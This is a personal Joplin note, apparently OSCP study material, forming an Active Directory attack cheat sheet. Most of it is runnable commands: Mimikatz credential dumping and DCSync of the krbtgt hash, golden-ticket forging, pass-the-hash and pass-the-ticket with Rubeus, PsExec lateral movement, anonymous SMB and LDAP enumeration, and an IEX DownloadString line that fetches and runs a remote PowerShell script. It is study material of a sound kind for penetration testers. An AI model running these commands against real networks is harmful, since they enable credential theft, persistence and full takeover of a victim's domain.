 0. AD CheatSheet

**USEFUL LINK FOR FINDING A SOLUTION**

https://wadcoms.github.io/#+Username+Hash

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#dnsadmins-abuse

# Possible Ways to Break Into DC

Pass-The-Hash - Using NTLM Hash of users to gain access

> sekurlsa::logonpasswords - Get Hash credentials (PTH)
> 
> Get-NetLoggedOn using PowerView - Get users having sessions (Confirmed with BloodHound)
> 
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key
> 
> https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash

## Pass-The-Ticket - Note that after a restart the ticket may not be valid

> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
> 
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket
> 
> \# Using Mimikatz - will need RDP to get the cmd session
> 
> kerberos::list
> 
> kerberos::list /export
> 
> kerberos::ptt \[ticket.kirbi\]
> 
> misc::cmd
> 
> PsExec.exe \\\192.168.1.105 cmd.exe
> 
> \# Using Reubeus
> 
> Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
> 
> dir \\\WIN-S0V7KMTVLD2\\c$
> 
> \# If we don't use Reubeus to ptt in the same session; reuse the ticket extracted
> 
> Rubeus.exe ptt /ticket:ticket.kirbi
> 
> PsExec.exe \\\192.168.1.105 cmd.exe
> 
> ipconfig

## Golden Ticket Generation - Requires 'access' to krbtgt SID, user/ RC4 pass

https://pentestlab.blog/2018/04/09/golden-ticket/

> \# on Mimikatz - get SID and krbtgt hash
> 
> privilege::debug
> 
> `lsadump::dcsync /user:DOMAIN\KRBTGT`
> 
> \# Generate the golden ticket
> 
> kerberos::golden /user:pavan /domain:DOMAIN /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500 /ptt
> 
> misc::cmd
> 
> PsExec64.exe \\\192.168.1.105 cmd.exe
> 
> ipconfig

## BloodHound Detection

1.  Kerberoasting
2.  ASREPRoasting - If user don't have attribute DONT\_REQ\_PREAUTH; Request a AS_REP message

## BruteForce/PasswordSpray

Local Privilege Escalation - Normal "Domain User" have no privileges across machines. Local Admin Privileges can dump hashes of other users in memory and locally

MsSQL Tursted Links

Unconstrained Delegation

Constrained Delegation

![f60450c52b865087e0115c6de30378dd.png](:/4960fa7f05dd4d41869329273c58b72e)

# If no credentials

1.  **Check for null and Guest access on smb services** (this won't work on modern Windows versions):
    - `enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>`
    - `smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>`
    - `smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //`
    - [**A more detailed guide on how to enumerate a SMB server can be found here.**](https://github.com/carlospolop/hacktricks/blob/master/windows/active-directory-methodology/broken-reference/README.md)
2.  **Enumerate LDAP**
    - ldapsearch
    - nmap -n -sV --script "ldap* and not brute" -p 389 &lt;DC IP&gt;
    - [**A more detailed guide on how to enumerate LDAP can be found here.**](/network-services-pentesting/pentesting-ldap)
3.  **Poison the network** (But OSCP cannot cuz its spoofing)
4.  OSINT techniques.

# ADPeaS

In ~/ADLibs

https://github.com/61106960/adPEAS

> IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.154/adPEAS.ps1')
> 
> `Invoke-adPEAS -Domain 'contoso.com'`
> 
> `# Specify Server`
> 
> `Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'`
> 
> `# Specify User / Password Credentials`
> 
> `$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force`
> 
> `$Cred = New-Object System.Management.Automation.PSCredential('contoso\johndoe', $SecPassword)`
> 
> `Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred`
> 
> \# Alternative method
> 
> `Invoke-adPEAS -Domain contoso.com -Username 'contoso\johndoe' -Password 'Passw0rd1!'`
> 
> `# Use BloodHound`
> 
> `Invoke-adPEAS -Module Bloodhound -Scope All`

id: a11afaa273734c1cb355f718651db3df
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-02-03T02:30:34.100Z
updated_time: 2022-08-18T21:07:00.925Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-02-03T02:30:34.100Z
user_updated_time: 2022-08-18T21:07:00.925Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1